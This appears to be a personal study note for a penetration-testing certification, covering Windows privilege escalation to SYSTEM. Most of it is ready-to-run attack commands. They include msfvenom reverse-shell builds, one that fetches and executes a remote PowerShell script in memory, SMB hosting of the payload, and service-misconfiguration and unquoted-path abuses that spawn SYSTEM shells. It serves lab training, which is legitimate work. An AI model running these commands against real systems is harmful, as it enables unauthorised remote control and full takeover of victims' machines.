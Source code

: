 # Windows Escalation Paths
---------------------------

This document captures in my preparation journey various Escalation Paths in Windows to get to Authority \ System.  
A couple of golden resources that you need to be aware of and should be referenced frequently 
- [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Sushant's Blog](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [YouTube Link - Sagi Shahar](https://www.youtube.com/results?search_query=sagi+shahar)  



### Reverse Shell - Couple of Methods
--------------------------------------

1. **Method1** Generate a reverse shell executable through any standard payload 



> **msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe**



As a next step, host this through a simple Python Server or through **SMB share**. You know Python server, here is the command for SMB share



> **sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .**


Note that the SMB server has to be set up in the same folder where the reverse.exe is (just like python server)

On the Target Windows machine you need to run the following command


> **copy \\\\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe**

Replace 10.10.10.10 with whatever IP the attach machine has.

And then run the reverse.exe file on the victim machine



2. **Method2** Generating a Powershell session by invoking Nishang's Reverse Shell into the memory directly



In this scenario we create a reverse shell in 2 steps. The payload generated via MSFVENOM launches a CMD.EXE with a command to launch PowerShell that invokes IEX and connects to a hosting server (Python Server) the necessary Reverse Shell File. It invokes the Reverse Shell into memory and is thus executed directly and within script one can pass the reverse shell IP address & port and listen on it. 

Here is how we do it. 



> msfvenom -p windows/exec CMD="powershell \\"iex(New-Object Net.WebClient).downloadString('http://10.10.14.21/rev.ps1')\"" -o reverse_pshell.exe




In here we are generating an EXE file which then needs to be run at the target box.

  

   
   

   
   

### Escalation Path 1 - Kernel Exploits
----------------------------------------

Kernel exploits present a very powerful way to escalate your privileges as it works directly with a kernel. Normally, you run a binary/executable and that should give you some kind of escalation of privileges on the box. 

**Resources**
-------------
https://github.com/SecWiki/windows-kernel-exploits

**Methodology**
---------------
1. Get some kind of a shell as part of initial foothold. This will depend on how you intend to escalate
	- Metasploit - For this you can use a payload of **windows/meterpreter/reverse_tcp** and run a handler to catch the shell
	- Manual - For this you can use a payload of **windows/shell_reverse_tcp** and run a NETCAT listener to catch the shell

2. Do local enumeration with the obtained shell 

3. Check on Exploit suggester to see if Kernel exploits are available. In case if they are go to the resource mentioned in the link.

4. See the methodology to get an escalated session and escalate privileges




### Escalation Path 2 - Insecure Service Permissions
------------------------------------------------------


Use accesschk.exe to check for a given user's access on a suspicious service - something that will get flagged with PowerUp.ps1
Here the example service is: daclsvc



> **C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc**


Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):


> **sc qc daclsvc**



Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:


> **sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""**


Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:


> **net start daclsvc**





### Escalation Path 3 - Unquoted Service Paths
--------------------------------------------------

In this escalation path


```


Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.

> **sc qc unquotedsvc**

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:

> **C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"**

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

net start unquotedsvc
```


